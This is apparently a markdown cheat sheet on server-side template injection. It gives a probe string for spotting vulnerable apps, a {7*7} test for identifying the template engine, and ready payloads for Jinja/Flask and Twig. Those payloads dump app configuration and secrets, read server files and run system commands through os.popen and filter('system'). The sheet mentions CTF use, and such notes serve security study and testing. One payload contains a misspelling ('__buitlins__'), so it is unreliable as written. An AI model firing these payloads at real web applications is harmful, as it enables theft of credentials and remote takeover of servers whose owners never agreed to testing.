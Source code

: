 # Server Side Template Injection (SSTI)

## Is the Web App Vulnerable?
Inject the following string:
`${{<%[%'"}}%\\.`
If it causes an error then the application might be vulnerable.

## Identifying the Template Engine
Start by injecting the payload `{7*7}`, then follow the diagram from left to right depending on the result of the injection.
- Green = successful arrow
- Red = unsuccessful arrow
A successful result for `{7*7}` would be if you see `49` rendered on the web page. That means you have successfully injected a payload.

![SSTI Diagram](assets/ssti-diagram.webp)

## Jinja Exploitation
Jinja is a Python templating engine that is usually used with either Flask or Django. The payloads below are targeted at Flask applications. If the payloads do not work check if the app is built with Python and Django.
### Show Application Configuration
This might show secret keys, API keys, or even database or other types of passwords.
`{{config.items()}}`
### Dump All Available Built-in Functions
`{{self.__init__.__globals__.__buitlins__}}`
### Reading System Files
You can read files on the server's filesystem such as the users file or any other files (like a flag for the CTF).
`{{self.__init__.__globals__.__builtins__.open("<filename>").read()}}`
### Remote Code Execution (RCE)
This will allow you to run commands on the server which is very dangerous.
`{{self.__init__.__globals__.__builtins__.__import__('os').popen('<command-to-run>').read()}}`

## Exploiting Twig
Twig is a PHP templating engine, so if you know that the web app is built with PHP it is worth trying.
### Application Information
`{{_self}}`
It might not show a lot of information but it is worth a try.
### Reading System Files
`{{"<filename>"|file_excerpt(1,-1)}}`
### Remote Code Execution (RCE)
`{{['<command-to-run>']|filter('system')}}`

**Note: If you are sending the payloads above as part of request parameters you might have to double encode the characters (in burpsuite highlight the payload and press Ctrl+U 2 times.**

## Extra Resources
- [Jinja Payloads](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
